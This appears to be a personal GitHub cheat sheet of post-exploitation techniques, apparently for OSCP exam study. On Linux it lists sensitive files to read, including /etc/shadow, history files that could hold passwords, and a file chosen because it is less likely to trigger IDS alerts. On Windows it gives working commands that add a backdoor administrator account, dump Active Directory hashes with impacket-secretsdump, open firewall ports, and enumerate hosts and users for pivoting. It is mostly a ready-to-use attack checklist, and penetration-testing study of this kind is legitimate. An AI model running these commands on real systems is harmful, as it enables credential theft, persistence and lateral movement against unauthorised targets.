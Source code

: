 Linux && windows post exploitation methods 

File
+ 
Description


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~LINUX #####################
=====================
/etc/resolv.conf 

Contains the current name servers (DNS) for the system. 
This is a globally readable file that is less likely to trigger IDS alerts than /etc/passwd 
=======================
/etc/motd 

Message of the Day. 
=======================
/etc/issue 

Debian - current version of distro 
========================
/etc/passwd 

List of local users 
========================
/etc/shadow 

List of users’ passwords’ hashes (requires root) 
========================
~/.bash_history[d] 

Will give you some directory context 
========================
~/.mysql_history 

MySQL database history - could have passwords
===========================


~~~~~~~~~~~~~~~~~ WINDOWS ####################

===============================
net user username password /ADD 

net localgroup Administrators username /ADD

Add yourself as administrator.
================================
impacket-secretsdump -system 'root/Documents/OSCP/10.11.X.XXX/system.save' -ntds '/root/Documents/OSCP/10.11.X.XXX/ntds.dit' LOCAL

Dump the active directory.
================================
netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL

Enable specific firewall ports.
==================================
- Arp -a  
- netstat -abno 
- ipconfig /all 
- route print 
- schtasks /query /fo LIST /v 
- netsh firewall show config

Look for any connections to other hosts in the lab. Here you have a pivoting opportunity.
====================================
(for /R ".\" %A in (*.txt) do echo %~fA %~zA) | findstr /v "echo

Look at text files.
======================================
Net shares

Look at file shares.
======================================
Get-ADComputer -Filter * -Properties *  | Select-Object @{Label = "Computer Name";Expression = {$_.Name}},@{Label = "Last Logon Date";Expression = {$_.LastLogonDate}} 
Get-ADUser -Filter * -Properties *  | Select-Object @{Label = "Logon Name";Expression = {$_.sAMAccountName}},  
                  @{Label = "Last LogOn Date";Expression = {$_.LastLogonDate.ToString('yyyy-MM-dd')}}, 
                  @{Label = "Created Date";Expression = {$_.whenCreated.ToString('yyyy-MM-dd')}}, 
                  @{Label = "7 Month Dormant";Expression = {if (( $_.LastLogonDate -gt 1990/01/01 -and $_.LastLogonDate -lt $time)  ) {'True'} Else {'False'}}}, 
                  @{Label = "Password Expire";Expression = {if (($_.PasswordNeverExpires -eq 'TRUE')  ) {'Enabled'} Else {'Disabled'}}}, # the 'if statement# replaces $_.Enabled 
                  @{Label = "Account Status";Expression = {if (($_.Enabled -eq 'TRUE')  ) {'Enabled'} Else {'Disabled'}}}, # the 'if statement# replaces $_.Enabled  
                  @{Label = "Admin User";Expression =  {if (($_.adminCount -eq '1')  ) {'TRUE'} Else {'FALSE'}}}, # the 'if statement# replaces $_.Enabled 
                  @{Label = "Description";Expression = {$_.Description}},  
                  @{Label = "Applications";Expression = {$_.info}}, 
                  @{Label = "First Name";Expression = {$_.GivenName}},   
                  @{Label = "Last Name";Expression = {$_.Surname}},  
                  @{Label = "Display Name";Expression = {$_.DisplayName}}, 
                  @{Label = "Job Title";Expression = {$_.Title}},  
                  @{Label = "Company";Expression = {$_.Company}}, 
                  @{Label = "Department";Expression = {$_.Department}},  
                  @{Label = "Office";Expression = {$_.OfficeName}},  
                  @{Label = "Phone";Expression = {$_.telephoneNumber}},  
                  @{Label = "Email";Expression = {$_.Mail}}
                  
 Enumerate users and computers using powershell.
 ==========================================
 http://hackingandsecurity.blogspot.com/2017/09/oscp-windows-post-exploitation.html 
 
 Windows guide for post exploitation.
 =========================================


















